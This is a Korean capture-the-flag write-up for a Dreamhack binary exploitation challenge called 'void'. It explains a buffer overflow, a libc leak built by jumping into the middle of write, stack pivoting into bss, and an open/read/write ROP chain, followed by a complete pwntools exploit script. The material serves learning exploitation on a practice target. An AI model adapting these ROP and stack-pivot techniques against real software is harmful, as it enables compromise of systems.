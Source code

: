 익스 코드를 봐도 내가 아니면 코드의 의도를 알 수 없기 때문에 흐름을 써보겠다.
`bof`가 조금 나고 카나리가 없다. 바이너리 pie가 없긴 한데 쓸만한 가젯이 없다. 일단 내가 보기엔 없어보였다. 그래서 `pop rdi` 문제처럼 `bss`에 `libc` 함수를 하나 만들어서 쓴다. 여러 가지가 가능할 거 같아서 어떤 함수를 만들까 고민했는데 간단하게 `write` 함수를 만들어서 `libc` 릭을 할려고 했다.
`write` 함수를 실행할 수 있다고 하자. 그럼 `libc` 함수를 출력해야 하므로 `rdi`, `rsi`, `rdx`를 변경해야 한다. `rdi`는 `main`에서 변조가 가능한데, 나머지 두 개가 문제다. `write` 내부를 보면 다음과 같은 로직이 있다.
```
0x0000000000114a44 <+36>:    mov    QWORD PTR [rsp+0x18],rdx
0x0000000000114a49 <+41>:    mov    QWORD PTR [rsp+0x10],rsi
0x0000000000114a4e <+46>:    mov    DWORD PTR [rsp+0x8],edi
0x0000000000114a52 <+50>:    call   0x90a70
0x0000000000114a57 <+55>:    mov    rdx,QWORD PTR [rsp+0x18]
0x0000000000114a5c <+60>:    mov    rsi,QWORD PTR [rsp+0x10]
0x0000000000114a61 <+65>:    mov    r8d,eax
0x0000000000114a64 <+68>:    mov    edi,DWORD PTR [rsp+0x8]
0x0000000000114a68 <+72>:    mov    eax,0x1
0x0000000000114a6d <+77>:    syscall
```

윗 부분과 아랫 부분이 어떤 행동을 하는지 감이 올 것이다. 여기서 `rdx`랑 `rsi`를 불러오는 `bss`에 값을 입력하고 `write + 46`으로 뛰면 `rsi`, `rdx`를 원하는대로 설정할 수 있다.
근데 이러면
`add dword ptr [rbp - 0x3d], ebx ; nop ; ret`
이 가젯을 4번 써야 한다. 정말 귀찮았다.

`libc` 릭이 끝났다. 이제 `pop rsi ; ret`과 `syscall` 가젯이 있다. 근데 `pop rdi ; ret` 가젯이 없다. 사실 있는데 필자가 이 문제를 8시간 째 푸는 중이라 정신이 없는 상태에서
`ROPgadget --binary libc.so.6 | grep "pop rdx ; ret"`
이렇게만 찾고 없어서 그냥 없다고 착각해버렸다. 그래서 `pop rdx` 가젯 없이 orw 코드를 짜야했다. `open`은 `rdx`를 안 쓰니까 그냥 하고, `bss`에 값을 의도적으로 넣어서 스택 이동을 생각해주면 `main`의 `read`를 방금 열은 `flag`파일을 읽는데 사용하고 다시 `ROP`를 할 수 있게 된다. `write`는 `rdx`가 필요해서
`0x000000000009133b : xor dh, 0x80 ; syscall`
이 가젯을 사용했다. `syscall` 실행 후에 바로 터지던데 어짜피 출력했으므로 상관없다.

`rbx` 컨트롤 트릭을 사용하는 문제는 원래 스택 사용이 복잡해서 코드가 더러운데, `pop rdx` 가젯 없이 익스한 관계로 `write` 트릭도 신경쓰느라 머리가 너무 아팠다. 근데 `write` 트릭은 실제 씨텝에서도 쓸만할 듯

# exploit

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']

#p = process('./void')
p = remote('host1.dreamhack.games', 10710)
e = ELF('./void')
l = ELF('./libc.so.6')
bss = e.bss() + 0x1000
main = 0x4013C8
leave_ret = 0x40137e

def main_func(num : int, payload : bytes):
    sleep(0.5)
    p.sendline(str(num).encode())
    sleep(0.5)
    p.send(payload)

payload = b'a' * 0x70 + p64(bss + 0x3500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x2500) + p64(main + 0x32) + p64(bss + 0x1000) + p64(main + 8)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x1500) + p64(main + 0x32) + p64(bss + 0x3510) + p64(leave_ret)
main_func(1, payload)

payload = p64(main + 5) * 14 + p64(bss + 0x500) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x30 + (p64(bss + 0x5d0) + p64(main + 0x32)) + (p64(bss + 0x5e0) + p64(main + 0x32)) + b'a' * 0x10 + (p64(bss + 0x600) + p64(main + 0x32)) + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = (l.sym['write'] + 46 - (0x00007f3085641117 - 0x7f308552c000)) & ((1 << 32) - 1)
# 0x000000000040121c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
payload2 = b'a' * 0x70 + p64(0x406488 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056e0) + p64(leave_ret)
main_func(1, payload)

payload1 = -0x19999999 & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406494 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x4056f0) + p64(leave_ret)
main_func(1, payload)

payload1 = (main - 0x99999999) & ((1 << 32) - 1)
payload2 = b'a' * 0x70 + p64(0x406490 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(0x405710) + p64(leave_ret)
main_func(1, payload)

payload1 = 8
payload2 = b'a' * 0x70 + p64(0x4064a8 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x70 + p64(bss + 0x700) + p64(main + 0x1c)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x500) + p64(main + 0x1c) + p64(bss + 0x620) + p64(main + 0x32)
main_func(1, payload)

payload = b'a' * 0x70 + p64(bss + 0x700 + 0x10) + p64(leave_ret)
main_func(1, payload)

payload1 = e.got['read']
payload2 = b'a' * 0x70 + p64(0x4064a0 + 0x3d) + p64(0x000000000040121c) + p64(main)
main_func(payload1, payload2)

payload = b'a' * 0x5c + p32(2 + 0x31337 - 1) + b'a' * 0x10 + p64(0x406480) + p64(leave_ret)
main_func(1, payload)
l.address = u64(p.recvn(8)) - l.sym['read']
print(hex(l.address))

pop_rax = l.address + 0x0000000000045eb0
pop_rdi = l.address + 0x000000000002a3e5
pop_rsi = l.address + 0x000000000002be51
syscall = l.address + 594838
xor_dh_80_syscall = l.address + 0x000000000009133b
ret = 0x000000000040101a

# flag : 0x4074c0
payload = p64(bss + 0x2510) + p64(pop_rdi) + p64(0x4064b8) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(2) + p64(syscall) + p64(main + 0x50) + b'a' * 0x20 + (b'flag' + b'\x00' * 4) + p64(0x406450) + p64(leave_ret)
main_func(1, payload)

payload = p64(pop_rdi) + p64(2) + p64(pop_rsi) + p64(0x4074c0) + p64(pop_rax) + p64(1) + p64(xor_dh_80_syscall) + b'a' * 0x38 + p64(0x405fb0 - 8) + p64(leave_ret)
main_func(1, payload)
p.interactive()
```